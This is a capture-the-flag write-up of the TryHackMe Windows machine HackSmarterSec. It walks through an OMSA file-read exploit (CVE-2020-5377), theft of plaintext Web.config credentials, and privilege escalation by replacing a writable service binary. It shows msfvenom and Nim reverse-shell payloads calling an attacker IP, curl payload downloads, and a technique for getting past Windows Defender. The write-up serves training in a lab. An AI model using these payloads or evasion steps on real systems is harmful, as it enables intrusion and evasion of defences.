




# HackSmarterSec TryHackMe Writeup

---

## Machine Information

| Field | Details |
|---|---|
| **Name** | HackSmarterSec |
| **Platform** | TryHackMe |
| **OS** | Windows |
| **Difficulty** | Medium |
| **Target IP** | 10.49.130.57 |

---

## Enumeration

### Nmap

```bash
nmap -sCV $target
```

```
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft FTP Service
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 06-28-23  02:58PM     3722 Credit-Cards-We-Pwned.txt
|_06-28-23  03:00PM  1022126 stolen-passport.png
22/tcp   open  ssh
80/tcp   open  http          Microsoft-IIS/10.0
|_http-title: HackSmarterSec
1311/tcp open  rxmon
| ssl-cert: Subject: commonName=hacksmartersec/organizationName=Dell Inc
|   Not valid before: 2023-06-30
|   Not valid after:  2025-06-29
3389/tcp open  ms-wbt-server
| rdp-ntlm-info:
|   Target_Name: HACKSMARTERSEC
|   Product_Version: 10.0.17763

clock-skew: mean: 3s
```

A lot going on here. Five ports, but let's break down what stands out:

- **Port 21 (FTP)** Anonymous login is allowed, and nmap already grabbed the directory listing. Two files: `Credit-Cards-We-Pwned.txt` and `stolen-passport.png`. This is flavor lore telling us this machine represents a criminal hacking group.
- **Port 80 (HTTP/IIS)** Standard IIS web server titled "HackSmarterSec".
- **Port 1311** Flagged as `rxmon`, but the SSL certificate has `commonName=hacksmartersec/organizationName=Dell Inc`. That's a dead giveaway: this is **Dell EMC OpenManage Server Administrator (OMSA)**, which runs on port 1311 by default.
- **Port 3389 (RDP)** Windows Server 2019 (build 17763).

The SSL cert detail `commonName=hacksmartersec` is important it tells us the hostname/folder structure we might need later.

### FTP Anonymous Access

```bash
ftp $target
# anonymous login, no password required

ftp> ls -la
06-28-23  02:58PM    3722 Credit-Cards-We-Pwned.txt
06-28-23  03:00PM 1022126 stolen-passport.png
```

Downloaded `Credit-Cards-We-Pwned.txt` it's a list of stolen VISA card numbers, expiry dates, and CVVs. Pure lore establishing this machine's character. No credentials here.

### Web Enumeration

Port 80:

```bash
whatweb http://$target
# Microsoft-IIS/10.0, Bootstrap, jQuery 3.4.1, Title: HackSmarterSec
```

Standard IIS landing page, nothing immediately exploitable.

Port 1311:

```bash
whatweb http://$target:1311
# 400 Bad Request  ← needs HTTPS

whatweb https://$target:1311
# Meta-Refresh-Redirect to /OMSALogin Title: Dell EMC OpenManage
```

Confirmed: HTTPS on port 1311 redirects to `/OMSALogin`. This is Dell EMC OMSA. Navigating to it in a browser shows the login panel and crucially, the **About** page reveals the exact version:



**OMSA version: 9.4.0.2**. That version number goes straight into searchsploit.

---

## Initial Foothold

### CVE-2020-5377 OMSA Arbitrary File Read

```bash
searchsploit OpenManage
```

```
Dell OpenManage Server Administrator 9.4.0.0 - Arbitrary File Read  | windows/webapps/49750.py
```

EDB-49750 CVE-2020-5377. The vulnerability: OMSA versions ≤ 9.4 contain path traversal bugs in the web API. An unauthenticated attacker can bypass authentication by making OMSA think it's talking to a "managed remote system" (by running a fake Dell OMSA server on the attacker's machine), then send crafted requests to the `DownloadServlet` endpoint to read arbitrary files on the target.

```bash
searchsploit -m windows/webapps/49750.py
mv 49750.py exploit.py
```

### Python 2 → Python 3 Fix

First run attempt:

```bash
python3 exploit.py 192.168.159.225 $target:1311
```

```
SyntaxError: Missing parentheses in call to 'print'.
```

The exploit was written in Python 2 (`print` without parentheses, `raw_input`, `thread` module, etc.). Rather than manually porting it, we grabbed the updated Python 3 compatible version directly from the Rhino Security Labs GitHub repository, which fixed all the compatibility issues.



### Reading Web.config

The exploit gives us an interactive prompt to read any file. We confirmed it works with `/windows/win.ini`, then went after something more useful.

The clue for the path came from the nmap SSL cert: `commonName=hacksmartersec`. IIS applications are typically hosted under `C:\inetpub\wwwroot\<appname>\`. So:

```
file > /inetpub/wwwroot/hacksmartersec/Web.config
```

```xml
<configuration>
  <appSettings>
    <add key="Username" value="tyler" />
    <add key="Password" value="IAmA1337h4x0randIkn0wit!" />
  </appSettings>
  ...
</configuration>
```

Plaintext credentials stored in the web application config file. **tyler / IAmA1337h4x0randIkn0wit!**

### SSH as Tyler

```bash
ssh tyler@$target
# Password: IAmA1337h4x0randIkn0wit!
```

```
Microsoft Windows [Version 10.0.17763.1821]

tyler@HACKSMARTERSEC C:\Users\tyler> cd Desktop
tyler@HACKSMARTERSEC C:\Users\tyler\Desktop> type user.txt
THM{4ll15n0REDACTEDhd3ll}
```

User flag captured.

---

## Privilege Escalation

### Initial Checks

```powershell
whoami /priv | findstr Enabled
```

```
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

Nothing juicy no `SeImpersonatePrivilege`, no `SeDebugPrivilege`. `netstat -anfo` didn't reveal any interesting internal services either. Time for automated enumeration.

### PrivescCheck Finding the Vulnerable Service

Downloaded and ran PrivescCheck.ps1 (u can download it in the bottom of this writeup section, i put it on references)

```powershell
curl "http://192.168.159.225:8000/PrivescCheck.ps1" -o privesc.ps1
. .\privesc.ps1
Invoke-PrivescCheck -Extended
```



The finding:

```
Name        : spoofer-scheduler
User        : LocalSystem
ImagePath   : C:\Program Files (x86)\Spoofer\spoofer-scheduler.exe
ModifiablePath: C:\Program Files (x86)\Spoofer\spoofer-scheduler.exe
Permissions : AllAccess
IdentityReference: BUILTIN\Users
```

The `spoofer-scheduler` service runs as **LocalSystem** (highest Windows privilege), and the binary at `C:\Program Files (x86)\Spoofer\spoofer-scheduler.exe` is **writable by all users** (`AllAccess` for `BUILTIN\Users`). Classic unquoted service path / insecure service binary permissions. The plan: replace the binary with a reverse shell, then start the service.

### Attempt 1: msfvenom Payload (Caught by AV)

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.159.225 LPORT=4444 \
  -f exe -o spoofer-scheduler.exe -e x86/shikata_ga_nai
```

Transferred and replaced the binary, then started the service:

```
sc start spoofer-scheduler
[SC] StartService FAILED 1053:
The service did not respond to the start or control request in a timely fashion.
```

Error 1053 means the service started but didn't send a "ready" signal back to the SCM typically Windows Defender killed it before it could establish the connection. The msfvenom payload with shikata_ga_nai encoding is well-known to AV at this point.

### Attempt 2: AV Bypass with Nim Reverse Shell

To bypass Defender, we needed a payload that wouldn't be detected. Nim-compiled binaries are less commonly signatured by AV engines compared to standard compiled languages, which makes them a good choice here.

Installed Nim via choosenim:

```bash
curl https://nim-lang.org/choosenim/init.sh -sSf | sh
export PATH=/home/wakamiya/.nimble/bin:$PATH
```

Wrote a simple TCP reverse shell in Nim (`shell.nim`) pointing to our listener, then cross-compiled for Windows:

```bash
nim c -d:mingw --app:gui shell.nim
```

```
[SuccessX] out: /home/wakamiya/.../shell.exe
```

The `--app:gui` flag is important it prevents a console window from appearing when the service runs, which could otherwise cause the service to fail immediately.

### Machine Reset & Clean Execution

At this point there was a complication: the msfvenom payload from Attempt 1 had already overwritten the original `spoofer-scheduler.exe`. Even though Attempt 1 failed, it left the binary replaced with a dead payload. The service was now stopped with no valid binary.

The clean solution: **reset the machine** to restore everything to the original state, then replace the binary only once with the Nim payload.

After reset, tyler transferred the Nim shell:

```bash
# On attacker
python3 -m http.server

# On target (tyler)
curl "http://192.168.159.225:8000/shell.exe" -o "C:\Program Files (x86)\Spoofer\spoofer-scheduler.exe"
```

Set up listener, then started the service:

```bash
# Attacker
nc -lvnp 4444

# Target
sc start spoofer-scheduler
```



```
listening on [any] 4444 ...
connect to [192.168.159.225] from (UNKNOWN) [10.49.144.11] 49896
C:\Windows\system32> whoami
nt authority\system
```

---

## Root / Final Answer

Navigated to the Administrator's desktop:

```
C:\Windows\system32> cd C:\Users\Administrator\Desktop\Hacking-Targets
C:\Users\Administrator\Desktop\Hacking-Targets> type hacking-targets.txt

Next Victims:
REDACTED
```

---

## Lessons Learned

**SSL certificate CN fields are a recon goldmine.** The nmap output showed `commonName=hacksmartersec` on port 1311's cert. That single detail told us the IIS app folder name, which let us construct the exact path to `Web.config` during the file read exploit. Always check cert subject names carefully they often leak internal naming conventions and directory structures.

**OMSA exposed to the internet is a serious misconfiguration.** Dell OpenManage Server Administrator is a server management tool that's supposed to be on internal/management networks only. Exposing it on port 1311 to the internet with a vulnerable version (≤ 9.4) means any unauthenticated attacker can read arbitrary files from the server. The default credentials on FTP gave context, but the actual foothold came entirely from this service.

**Don't store application credentials in Web.config plaintext.** `Web.config` is a common target for file read attacks precisely because developers habitually put credentials there. Those credentials should be in environment variables, secrets management systems, or encrypted at rest not in a config file that a path traversal can read.

**msfvenom payloads are trivially caught by modern AV.** Shikata_ga_nai encoding hasn't been a reliable AV bypass for years. When a payload fails with error 1053, AV killing the process is the first thing to suspect. Less common compilers and languages (Nim, Go, Rust) produce binaries that AV hasn't seen enough samples of to confidently signature which is why the Nim shell worked where msfvenom didn't.

**Insecure service binary permissions = LocalSystem escalation.** If a service runs as LocalSystem and a low-privileged user can overwrite the binary, it's trivial escalation: swap the binary, start the service, get SYSTEM. `PrivescCheck.ps1` is an excellent tool for catching these it found this in under 20 seconds.

**Machine resets are valid strategies.** Sometimes you accidentally break something irreversibly (like overwriting the only copy of a service binary). Rather than spending time trying to repair a broken state, resetting and doing it cleanly once is faster and cleaner. Not every mistake needs to be fixed sometimes a restart is the right call.

---

## Tools & References

| Tool | Purpose |
|---|---|
| **nmap** | Port scanning & SSL cert analysis |
| **ftp** | Anonymous FTP access |
| **whatweb** | Web tech fingerprinting |
| **searchsploit** | Finding CVE-2020-5377 exploit |
| **exploit.py (EDB-49750)** | OMSA arbitrary file read (CVE-2020-5377) |
| **ssh** | Initial access as tyler |
| **PrivescCheck.ps1** | Windows local privilege escalation enumeration |
| **msfvenom** | Reverse shell payload (caught by AV first attempt) |
| **Nim** | AV-bypassing reverse shell compilation |
| **choosenim** | Nim toolchain installer |
| **nc (netcat)** | Reverse shell listener |
| **Python HTTP server** | Serving payloads to target |

**References:**
- [CVE-2020-5377 Rhino Security Labs PoC](https://github.com/RhinoSecurityLabs/CVEs/tree/master/CVE-2020-5377_CVE-2021-21514)
- [EDB-49750](https://www.exploit-db.com/exploits/49750)
- [Nim Reverse Shell](https://github.com/Sn1r/Nim-Reverse-Shell)
- [PrivescCheck](https://github.com/itm4n/PrivescCheck)
